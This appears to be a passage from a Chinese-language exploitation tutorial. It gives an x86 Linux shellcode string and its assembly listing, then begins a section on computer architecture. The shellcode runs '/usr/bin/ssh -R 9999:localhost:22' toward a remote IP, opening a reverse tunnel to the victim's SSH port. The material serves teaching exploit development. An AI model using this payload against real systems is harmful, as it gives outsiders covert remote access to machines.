 ```
"\x31\xc0\x50\x68\x2e\x32\x32\x36\x68\x38\x2e\x30\x30\x68\x32\x2e\x31\x36""\x66\x68\x31\x39\x89\xe6\x50\x68\x74\x3a\x32\x32\x68\x6c\x68\x6f\x73\x68""\x6c\x6f\x63\x61\x68\x39\x39\x39\x3a\x66\x68\x30\x39\x89\xe5\x50\x66\x68""\x2d\x52\x89\xe7\x50\x68\x2f\x73\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75""\x73\x72\x89\xe3\x50\x56\x55\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
```

这是该 shellcode 的汇编语言：

```
xor    %eax,%eax
push   %eax
pushl  $0x3632322e
pushl  $0x30302e38
pushl  $0x36312e32
pushw  $0x3931
movl   %esp,%esi
push   %eax
push   $0x32323a74
push   $0x736f686c
push   $0x61636f6c
push   $0x3a393939
pushw  $0x3930
movl   %esp,%ebp
push   %eax
pushw  $0x522d
movl   %esp,%edi
push   %eax
push   $0x6873732f
push   $0x6e69622f
push   $0x7273752f
movl   %esp,%ebx
push   %eax
push   %esi
push   %ebp
push   %edi
push   %ebx
movl   %esp,%ecx
mov    $0xb,%al
int    $0x80
```

# 计算机架构

让我们来了解一些计算机架构（Intel x64）中的概念。计算机的主要组件如下图所示：

![](img/00017.jpeg)
